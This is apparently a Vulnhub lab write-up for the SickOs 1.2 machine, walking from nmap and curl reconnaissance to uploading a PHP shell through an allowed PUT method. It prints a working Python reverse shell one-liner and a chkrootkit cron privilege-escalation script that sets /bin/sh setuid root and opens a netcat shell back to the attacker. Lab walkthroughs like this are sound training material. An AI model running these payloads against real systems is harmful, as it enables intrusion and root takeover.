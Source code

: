 <h1>SickOs: 1.2 Write-up</h1>

<h2>Nmap</h2>

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    lighttpd 1.4.28
```

<h3>PORT 80</h3>

Found **/test** directory in gobuter result:

**Checking for OPTIONS** ie. PUT DELETE GET etc....

```curl -X OPTIONS http://192.168.56.34/```

curl show that PUT allowed so i uploaded **simple-php-shell.php** using burp and took python reverse shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

![alt text](https://github.com/Vanshal/Vulnhub-Writeups/blob/master/SickOs:%201.2/Images/shellcall.png)

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/SickOs%3A%201.2/Images/shell1.png)


<h2>Privilege Escalation :(Cron job)</h2>

Exploit : https://lepetithacker.wordpress.com/2017/04/30/local-root-exploit-in-chkrootkit/

1. Create file **/tmp/update** Contain's

```
#!/bin/bash
chown root:root /bin/sh ; chmod 4777 /bin/sh
nc 192.168.56.1 4433 -e /bin/bash
```

2. ```chmod 777 /tmp/update```

3. wait for the cron job to run then execute ```/bin/sh```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/SickOs%3A%201.2/Images/privesc.png)

